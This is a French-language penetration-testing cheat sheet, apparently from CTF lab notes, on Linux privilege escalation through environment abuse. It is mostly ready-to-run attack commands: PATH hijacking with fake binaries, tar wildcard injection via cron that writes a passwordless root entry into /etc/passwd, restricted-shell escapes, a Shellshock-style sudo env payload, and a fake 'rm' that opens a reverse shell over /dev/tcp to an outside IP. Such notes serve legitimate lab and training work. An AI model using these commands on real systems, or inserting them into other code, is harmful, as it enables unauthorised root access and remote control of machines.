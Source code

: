 # 02-Escalade Basée sur l'Environnement

### Abus de la Variable PATH
> Manipuler la variable d'environnement `PATH` pour forcer l'exécution de notre code malveillant à la place des binaires légitimes.
> **Contexte Sudo :** Vérifier si le PATH utilisé par `sudo` est différent du PATH de l'utilisateur (`sudo -l` peut montrer `secure_path` ou des variables `env_keep` liées au PATH). Si `secure_path` est restrictif mais que des commandes spécifiques autorisées par sudo appellent d'autres binaires sans chemin absolu, un abus de PATH peut toujours être possible dans ce contexte plus limité.

```bash
# Ajouter le répertoire courant (.) au début de PATH
PATH=.:$PATH
export PATH

# Créer un binaire malveillant avec un nom commun (ex: ls)
echo 'echo "PATH ABUSE!!"; /bin/bash' > ls
chmod +x ls
ls  # Exécute notre script au lieu de la commande /bin/ls si le répertoire courant est consulté en premier
```

### Abus des Caractères Jokers (Wildcards)
> Abuser des caractères jokers (`*`, `?`, `[]`) dans les scripts, notamment ceux utilisés avec des commandes comme `tar` ou `chown` dans des tâches cron.

```bash
# Exemple : Exploiter une tâche cron utilisant tar avec un wildcard (*) de manière non sécurisée
# Supposons un cronjob comme : tar czf /backups/archive.tgz /home/user/*
# Nous créons des fichiers avec des options de tar dans leurs noms dans /home/user/
echo 'echo "root::0:0:root:/root:/bin/bash" >> /etc/passwd' > /home/user/root.sh
chmod +x /home/user/root.sh
touch "/home/user/--checkpoint-action=exec=sh root.sh"
touch "/home/user/--checkpoint=1"
# Attendre que le cronjob s'exécute. `tar` interprétera ces noms de fichiers comme des options.
```

### Évasion des Shells Restreints
> Techniques pour s'échapper d'un shell restreint (rbash, rksh, rzsh) qui limite les commandes exécutables.

```bash
# Substitution de commande
ls -l `pwd`

# Chaînage de commandes (si ; est autorisé)
ls;/bin/bash

# Utilisation de variables d'environnement (si la réassignation est possible)
SHELL=/bin/bash exec /bin/bash

# Utilisation de fonctions shell (si la définition de fonction est possible)
function evasionshell { /bin/bash; }; evasionshell
# Ou simplement :
mafonction() { /bin/bash; }
mafonction

# Autres commandes souvent utiles pour l'évasion :
# awk 'BEGIN {system("/bin/bash")}'
# find / -name nom_fichier -exec /bin/bash \;
# more /etc/passwd (puis !/bin/bash)
# less /etc/passwd (puis !/bin/bash)
# vi (puis :!/bin/bash)
# scp (pour transférer des fichiers)
# ssh (pour se connecter ailleurs)
# ftp (puis !/bin/bash)
```

### Variables d'Environnement Vulnérables
> Certaines variables d'environnement peuvent être exploitées si des programmes les utilisent de manière non sécurisée.

Exemple (Jordak - type Shellshock via `env` avec `sudo`) :
> Si `sudo -l` permet d'exécuter une commande avec la préservation de certaines variables d'environnement ou l'utilisation de `env`.
```bash
# Exploiter une vulnérabilité de type Shellshock si la cible est vulnérable et qu'on peut contrôler l'environnement d'un script bash
# Cela est plus spécifique à la vulnérabilité Shellshock (CVE-2014-6271) elle-même.
# L'exemple fourni semble être une tentative d'exploitation de Shellshock via la commande `env` avec `sudo`.
# Si `sudo -l` montre que l'utilisateur peut exécuter `env` ou une commande qui hérite de l'environnement :
sudo -u root env 'VAR=() { :;}; /bin/bash -i' # Tentative d'exploitation de Shellshock
# Ou si une commande spécifique est autorisée et qu'elle appelle un script bash vulnérable :
sudo /chemin/vers/script_bash_autorise
# Et si ce script est vulnérable à Shellshock et que nous pouvons injecter des variables d'environnement.

# Un exemple plus direct d'abus de variable d'environnement avec sudo :
# Si un script exécuté avec sudo utilise LD_PRELOAD ou PYTHONPATH de manière non sécurisée (voir section 05)
# Si des fichiers de configuration globaux comme /etc/profile, /etc/bash.bashrc, /etc/environment sont modifiables
# et qu'ils sont sourcés par des processus privilégiés, cela peut permettre de définir des variables d'environnement
# exploitables (ex: LD_PRELOAD, fonctions bash malveillantes).
```
*(Note: L'exemple original pour Jordak est une exploitation de type Shellshock. J'ai ajouté des clarifications. L'abus de `LD_PRELOAD` ou `PYTHONPATH` avec `sudo` est traité plus en détail dans la section 05.)*

---
### Techniques d'Élévation de Privilèges Linux dans des Box (Basées sur l'Environnement)

#### Exploitation du PATH (Exemple Shiftdel)
> Si un script privilégié exécute des commandes sans spécifier leur chemin absolu.
```bash
# Le script privilégié exécute 'rm' sans '/bin/rm'
# Créer un répertoire 'bin' dans notre $HOME (s'il est dans le PATH ou si on peut le mettre dans le PATH du script)
mkdir ~/bin
echo '#!/bin/bash' > ~/bin/rm
echo 'bash -i >& /dev/tcp/192.168.49.x/1234 0>&1' >> ~/bin/rm
chmod +x ~/bin/rm
# S'assurer que ~/bin est dans le PATH du script privilégié, ou que le script est exécuté depuis un répertoire où notre 'rm' sera trouvé en premier.
# export PATH=~/bin:$PATH # Si on peut influencer le PATH du processus privilégié
# Attendre que le script s'exécute avec des privilèges élevés.
``` 
